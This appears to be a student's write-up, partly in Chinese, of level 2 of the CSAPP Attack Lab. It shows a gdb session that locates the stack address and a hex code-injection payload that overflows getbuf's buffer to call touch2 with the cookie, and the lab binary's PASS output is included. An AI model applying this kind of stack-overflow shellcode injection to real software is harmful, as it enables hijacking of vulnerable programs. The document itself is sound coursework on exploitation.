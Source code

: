 避免段错误的正确调试

```
lyjy@Lenovo:~/CSAPP/attacklab$ gdb ctarget
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04.2) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ctarget...
注意这里是打断点在栈指针向下移动后的第二行
(gdb) break *0x4017ac
Breakpoint 1 at 0x4017ac: file buf.c, line 14.
(gdb) run -q -i level2.txt
Starting program: /home/lyjy/CSAPP/attacklab/ctarget -q -i level2.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:14
14      buf.c: No such file or directory.
(gdb) print /x $rsp
$1 = 0x5561dc78
```

```
0x5561dc78终于得到了正确答案
```

最终答案：

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

成功通过

```
lyjy@Lenovo:~/CSAPP/attacklab$ ./hex2raw<level2.txt>level2
lyjy@Lenovo:~/CSAPP/attacklab$ ./ctarget -q -i level2
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 
```
